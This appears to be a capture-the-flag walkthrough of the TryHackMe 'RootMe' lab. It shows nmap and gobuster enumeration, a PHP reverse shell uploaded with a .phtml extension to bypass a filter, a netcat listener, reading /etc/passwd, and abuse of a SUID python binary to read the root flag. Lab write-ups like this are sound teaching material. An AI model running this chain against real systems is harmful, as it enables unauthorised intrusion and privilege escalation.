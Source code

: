 Enumerated the box as normal. You can answer all the questions in task 2 from our enumeration.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 14:14 CDT
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Initiating Ping Scan at 14:14
Scanning rootme.thm (10.10.202.81) [4 ports]
Completed Ping Scan at 14:14, 0.34s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 14:14
Scanning rootme.thm (10.10.202.81) [1000 ports]
Discovered open port 22/tcp on 10.10.202.81
Discovered open port 80/tcp on 10.10.202.81
Increasing send delay for 10.10.202.81 from 0 to 5 due to 36 out of 118 dropped probes since last increase.
Completed SYN Stealth Scan at 14:14, 14.88s elapsed (1000 total ports)
Initiating Service scan at 14:14
Scanning 2 services on rootme.thm (10.10.202.81)
Completed Service scan at 14:14, 6.43s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.202.81.
Initiating NSE at 14:14
Completed NSE at 14:14, 7.11s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.94s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Nmap scan report for rootme.thm (10.10.202.81)
Host is up (0.21s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.25 seconds
           Raw packets sent: 1092 (48.024KB) | Rcvd: 1859 (214.384KB)
```

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://rootme.thm/
[+] Threads      : 10
[+] Wordlist     : directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : html,php,txt,jpg
[+] Timeout      : 10s
=====================================================
2020/09/14 13:52:58 Starting gobuster
=====================================================
/index.php (Status: 200)
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)

```

I then went into the ```/panel``` directory of the website and found an upload form. I then uploaded a simple php reverse shell, but with the extension of .phtml as the site would not let me upload a .php file.

I issued a ```nc -lnvp 1234``` on my machine and clicked on the link to the reverse shell and was greeted with a shell as user www-data. ***NOTE: You can use any free port on your system, I just was lazy... :) ***

```
nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.202.81 35830
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:17:34 up 28 min,  0 users,  load average: 0.00, 0.01, 0.22
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We were placed in the / directory so we needed to know where home was for www-data

```
cat /etc/passwd
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```

So, we change into /var/www and see the user.txt flag

```
cd /var/www
ls -la
total 20
drwxr-xr-x  3 www-data www-data 4096 Aug  4 17:54 .
drwxr-xr-x 14 root     root     4096 Aug  4 15:08 ..
-rw-------  1 www-data www-data  129 Aug  4 17:54 .bash_history
drwxr-xr-x  6 www-data www-data 4096 Aug  4 17:19 html
-rw-r--r--  1 www-data www-data   21 Aug  4 17:30 user.txt
cat user.txt
THM{***_***_*_*****}
```
Now we need to figure out how to get the root.txt flag. Looking for the SUID binaries we see that our favorite scripting language has one set:
```
find / -user root -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python   <-----
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
Using GTFObins we see a way that we can access files that we normally wouldn't be able to due to permission restrictions. 

```
python -c 'print(open("/root/root.txt").read())'  
THM{*********_**********}
```
We now have our root flag!